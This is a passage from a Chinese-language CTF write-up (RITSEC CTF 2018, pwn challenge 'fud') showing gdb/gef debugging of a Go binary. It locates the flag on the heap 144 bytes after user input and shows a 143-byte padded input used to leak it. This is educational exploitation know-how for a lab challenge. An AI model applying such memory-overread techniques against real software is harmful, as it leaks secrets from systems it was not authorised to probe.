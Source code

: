 gdb動態調試。
1. `call io_ioutil_ReadFile`之後的棧楨：
    ```gdb
    0x000000c42005bf20│+0x0000: 0x00000000004c55c2  →  "flag.txtgo1.10.3no anodereadlinkrunnableruntime.sc[...]"	 ← $rsp
    0x000000c42005bf28│+0x0008: 0x0000000000000008
    0x000000c42005bf30│+0x0010: 0x000000c4200ae000  →  "RITSEC{NOT_THE_REAL_FLAG}"
    0x000000c42005bf38│+0x0018: 0x000000000000001a
    ```
    出現了本地flag.txt中的內容。
1. `call main.main.func1`之後的棧楨：
    ```gdb
    0x000000c42005bf20│+0x0000: 0x000000c4200ae000  →  "RITSEC{NOT_THE_REAL_FLAG}"	 ← $rsp
    0x000000c42005bf28│+0x0008: 0x000000000000001a
    0x000000c42005bf30│+0x0010: 0x000000000000021a
    0x000000c42005bf38│+0x0018: 0x0000000000563870  →  "RITSEC{NOT_THE_REAL_FLAG}"
    0x000000c42005bf40│+0x0020: 0x000000000000021a
    ...
    gef➤  heap chunk 0x563870
    Chunk(addr=0x563870, size=0x30, flags=PREV_INUSE)
    Chunk size: 48 (0x30)
    Usable size: 40 (0x28)
    Previous chunk size: 0 (0x0)
    PREV_INUSE flag: On
    IS_MMAPPED flag: Off
    NON_MAIN_ARENA flag: Off
    ```
    發現flag已經到了堆當中了。
1. `call main._Cfunc_myGets`之後的棧楨：
    ```gdb
    0x000000c42005bf20│+0x0000: 0x00000000005637e0  →  "1234567890"	 ← $rsp
    0x000000c42005bf28│+0x0008: 0x0000000000000001
    gef➤  dereference 0x5637e0 20
    0x00000000005637e0│+0x0000: "1234567890"
    0x00000000005637e8│+0x0008: 0x00000000000a3039 ("90"?)
    0x00000000005637f0│+0x0010: 0x0000000000000000
    0x00000000005637f8│+0x0018: 0x0000000000000071 ("q"?)
    0x0000000000563800│+0x0020: 0x0000000000000000
    ...
    0x0000000000563860│+0x0080: 0x0000000000000000
    0x0000000000563868│+0x0088: 0x0000000000000031 ("1"?)
    0x0000000000563870│+0x0090: "RITSEC{NOT_THE_REAL_FLAG}"
    0x0000000000563878│+0x0098: "OT_THE_REAL_FLAG}"
    gef➤  p/d 0x90
    $5 = 144
    ```
1. 用戶輸入內容在flag前面144個字節處。如果輸入內容爲143字節（比如`'A'*143`)後面還有一個回車(0x0a)，可將flag一併輸出。
    ```gdb
    gef➤  r
    Starting program: /home/lj/ctf-notes/201811--ritsec-ctf-2018/Pwn/01--fud/pwn3
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    [New Thread 0x7ffff7d81700 (LWP 5180)]
    ...
    [New Thread 0x7ffff5d7d700 (LWP 5184)]
    Gimme some bytes, I'm hangry...
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    ─────────────────────────────────────────────────────────────────────────────── stack ────
    0x000000c42005bf20│+0x0000: 0x00000000005637e0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $rsp
    0x000000c42005bf28│+0x0008: 0x0000000000000001
    0x000000c42005bf30│+0x0010: 0x0000000000000001
    ───────────────────────────────────────────────────────────────────────── code:x86:64 ────